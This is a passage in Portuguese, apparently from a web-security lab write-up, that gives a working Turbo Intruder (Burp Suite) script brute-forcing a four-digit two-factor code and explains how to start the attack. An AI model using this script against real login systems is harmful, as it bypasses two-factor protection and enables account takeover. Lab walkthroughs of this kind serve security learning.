 No `turbo intruder` utilizaremos um código em python para fazer o brute force, que é o seguinte:

```python

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.BURP
                           )

    for num in range(0, 10000):
        mfa_code = '{0:04}'.format(num)
        engine.queue(target.req, mfa_code.rstrip())


def handleResponse(req, interesting):
    if req.status == 302:
        table.add(req)

```

onde o `mfa_code` é o código de autenticação de dois fatores que vai ser enviado para o servidor, e o `range(0, 10000)` é o intervalo de números que vai ser enviado para o servidor. O código também irá mostrar apenas as requisições que retornaram o status code 302, que é o status code de redirecionamento.

Após isso, clicamos em `start attack` e o `turbo intruder` irá fazer o brute force no código de autenticação de dois fatores.

![turbo intruder](broken_logic_turbo_intruder.png)
